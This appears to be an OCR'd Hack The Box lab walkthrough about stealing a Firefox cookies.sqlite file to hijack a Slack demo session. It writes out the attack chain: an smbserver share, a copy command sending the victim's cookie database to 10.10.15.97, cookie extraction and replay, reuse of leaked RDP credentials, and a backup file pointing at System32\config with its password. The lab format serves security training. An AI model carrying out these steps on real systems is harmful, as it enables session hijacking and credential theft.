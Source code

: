 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         8/17/2022   9:11 AM                3D Objects
d-r---         8/17/2022   9:11 AM                Contacts
d-r---         8/17/2022   9:11 AM                Desktop
d-r---         8/17/2022   9:11 AM                Documents
d-r---         8/17/2022   9:52 AM                Downloads
d-r---         8/17/2022   9:11 AM                Favorites
d-r---         8/17/2022   9:11 AM                Links
d-r---         8/17/2022   9:11 AM                Music
d-r---         8/17/2022   9:12 AM                OneDrive
d-r---         8/17/2022   9:12 AM                Pictures
d-r---         8/17/2022   9:11 AM                Saved Games
d-r---         8/17/2022   9:12 AM                Searches
d-r---          2/3/2024   7:19 AM                Videos
-a----         9/23/2022  10:46 AM         524288 cookies.sqlite

sudo smbserver.py -smb2support share $(pwd)

copy C:\Users\Grace\cookies.sqlite \\10.10.15.97\share\

python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d

(10, '', 'd', 'xoxd-VGhpcyBpcyBhIGNvb2tpZSB0byBzaW11bGF0ZSBhY2Nlc3MgdG8gU2xhY2ssIHN0ZWFsaW5nIGEgY29va2llIGZyb20gYSBicm93c2VyLg==', '.api.slacktestapp.com', '/', 7975292868, 1663945037085000, 1663945037085002, 0, 0, 0, 1, 0, 2)

slack.com on Firefox with Cookie Editor extension

Slacky Demo Chat Website
You have successfully logged in

FLAG: HTB{Stealing_Cookies_To_AccessWebSites}
Chat

jeff: Hi Grace, I'm testing the our internal Slack Demo Chat App

grace: Yeah, it's working fine, we just need to add some color.

jeff: Can you help me with that?

grace: Sure. Where's the source code?

jeff: It's in my computer, you can login with my creds Username: jeff and Password Webmaster001!

grace: Ok! I'll do it :)

xfreerdp /v:10.129.31.105 /u:jeff /p:Webmaster001!

Content of backup.txt on desktop :

```
Repository: E:\restic
Backup Directories: 
 - C:\Windows\System32\config
 - C:\xampp\htdocs\webapp_old
Password: Superbackup!

Sample:

restic.exe -r E:\restic snapshots
```
